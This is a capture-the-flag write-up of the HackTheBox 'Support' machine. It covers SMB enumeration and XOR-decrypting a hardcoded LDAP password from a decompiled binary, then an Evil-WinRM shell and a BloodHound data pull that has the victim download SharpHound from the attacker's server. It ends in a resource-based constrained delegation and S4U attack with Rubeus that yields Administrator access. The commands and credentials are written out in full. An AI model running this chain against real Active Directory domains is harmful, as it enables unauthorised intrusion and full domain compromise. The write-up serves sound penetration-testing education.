







# HTB Support Walkthrough

## Enumeration

Running nmap on the machine, we got:

```bash
nmap -sC -sV -oA nmap/Support 10.10.11.174
```


Looking at the results, we can see that smb and Active Directory services are open. The ldap scan is also leaking a domain called support.htb0.

Added it to our hosts file:

```bash
echo "10.10.11.174 support.htb0" | sudo tee -a /etc/hosts
```

Using `smbclient`, access the machine:

```bash
smbclient -L \\support.htb0
smbclient \\support.htb0\support-tools
```

Download and unzip the `UserInfo.exe.config` file into the attacker's machine:

```bash
mget Userinfo.exe.config
unzip UserInfo.exe.config
```

We need to decompile it using **ILSpy**, which can be downloaded through this link:

```bash
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
```

Navigating through UserInfo.Services > Protected. We can see how the password hash is being made. 




### XOR Logic for Decryption

The password is encrypted using XOR logic with the key `"armando"`.

Key Points:
- **XOR Logic**: The `^` operator performs a bitwise XOR. XORing the same value twice restores the original data: `a ^ b ^ b = a`.
- **Key Cycling**: `key[i % key.Length]` allows the key to "wrap around" when the password bytes exceed the key length.
- **Obfuscation**: The combination of Base64 encoding and XOR operations makes the password harder to discover.


### Python Script for Decryption

We can decrypt the password with a Python script:

```python
import base64

# Encoded password and key
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"

# Step 1: Base64 decode
decoded_bytes = base64.b64decode(enc_password)

# Step 2: XOR decryption logic
key_bytes = key.encode('ascii')
decrypted_bytes = bytearray()

for i in range(len(decoded_bytes)):
    decrypted_byte = (decoded_bytes[i] ^ key_bytes[i % len(key_bytes)]) ^ 0xDF
    decrypted_bytes.append(decrypted_byte)

# Step 3: Convert the result to a string
try:
    password = decrypted_bytes.decode('utf-8')
    print("Recovered Password:", password)
except UnicodeDecodeError:
    print("Failed to decode decrypted bytes. Output may be binary:", decrypted_bytes)
```

### Output:
```bash
python3 recoverpass.py 
Recovered Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

#### Credentials
```
support//ldap:0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Exploitation

Now that we have the credentials, let's try searching the machine using LDAP.

If `ldapsearch` doesn't work, use `impacket-GetADUser` instead:

```bash
impacket-GetADUsers -all support.htb/ldap -dc-ip support.htb0
```




Alternatively, use **Apache Directory Studio** for a better view of the AD:

```bash
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
sudo gunzip
sudo tar -xvf
./Apache-Directory-Studio
```

Connect to the AD using LDAP user credentials:

- **Bind DN**: `ldap@support.htb`
- **Password**: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`



#### Credentials for `support` user:
```
support:Ironside47pleasure40Watchful
```

With these credentials, we can establish a shell using **Evil-WinRM**:

```bash
evil-winrm -i support.htb0 -u support -p Ironside47pleasure40Watchful
```

## Privilege Escalation

Check if the machine is a Domain Controller:

```bash
Get-ADDomain
```

The `InfrastructureMaster` is `dc.support.htb`.

Identify if the user is a member of any groups:

```bash
whoami /groups
```



### Install BloodHound

To identify possible attack paths, install **BloodHound**:

```bash
sudo apt install -y neo4j
sudo neo4j start
```

Download **BloodHound** from here:

```bash
wget https://github.com/SpecterOps/BloodHound-Legacy/releases/download/v4.3.1/BloodHound-linux-x64.zip
unzip the file
./BloodHound --no-sandbox
```

Change the password at `http://localhost:7474`:

Need to clone BloodHound AD to use sharphound.exe:

BloodHound > Collectors 

Set up an HTTP server:

```bash
python3 -m http.server
```

Now in the evil-winrm session of the victim's machine, fetch the SharpHound.exe:

```bash
curl -o SharpHound.exe http://10.10.14.6:8000/SharpHound.exe
```

or connect to the victim's machine via Evil-WinRM in the directory of Bloodhound and upload SharpHound.exe.

Now execute:

```bash
./SharpHound.exe
```

It will gather the data and generate a .zip file that we need to download into attacker's machine.
Re-open Evil-WinRM into the home folder so permissions won't mess up with the download.

Once downloaded, we need only drag and drop the zip file into the BloodHound window to load the acquired data.

We saw that support user is a member of SHARED SUPPORT ACCOUNTS@SUPPORT.HTB which has a direct link with the DC.SUPPORT.HTB

### RBCD Attack
In a nutshell, the Resource-Based Constrained Delegation (RBCD) attack works like this:
1. **Step 1** – Add Fake Computer to the Domain: The attacker controls a computer (let’s call it $FAKE-COMP01) and adds it to the domain.
2. **Step 2** – Set Up the Fake Computer to Act on Behalf of the Domain Controller (DC).
3. **Step 3** – Generate Kerberos Tickets: The attacker requests Kerberos tickets for $FAKE-COMP01.
4. **Step 4** – Impersonate a Privileged User: The attacker uses Pass-the-Ticket (PtT) to authenticate as a privileged user, like the Administrator.

We need to verify that msds-allowedtoactonbehalfofotheridentity attribute is empty. We need to upload PowerView.ps1 to the victim using evil-winrm.

Find it, if it comes pre-installed with your Linux Distro:

```bash
find / 2>/dev/null | grep PowerView.ps1
```

Copy it to Support directory:

```bash
cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ~/HTB/Support/PowerView.ps1
```

Upload it to the victim:

```bash
upload PowerView.ps1
```

Upload Powermad.ps1 as well from [here](https://github.com/Kevin-Robertson/Powermad) and Upload Rabeus.exe:


Once these are uploaded, go to the victim's machine:

```powershell
Import-Module .\Powermad.ps1
```


Now we see that we can create new computers since our machineaccountquota is 10.

### Creating Fake Machine
```powershell
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

**creds**:
```plaintext
FAKE-COMP01:Password123
```

Now we configure the Resource-Based Constrained Delegation:

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

Verify it:

```powershell
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```

### Perform S4U Attack
This attack will allow us to acquire the Kerberos ticket on behalf of the Administrator.

Use Rubeus:

```bash
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Get the value of rc4_hmac and generate Kerberos ticket for the administrator:

```bash
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

Grab the last ticket (Base64) for the Administrator and save it as ticket.kirbi.b64 in the attacker's machine.



Now decode the file:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

Convert the ticket.kirbi to ticket.cache:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Using the ticket.cache, we login to the machine as Admin via impacket's psexec:

```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
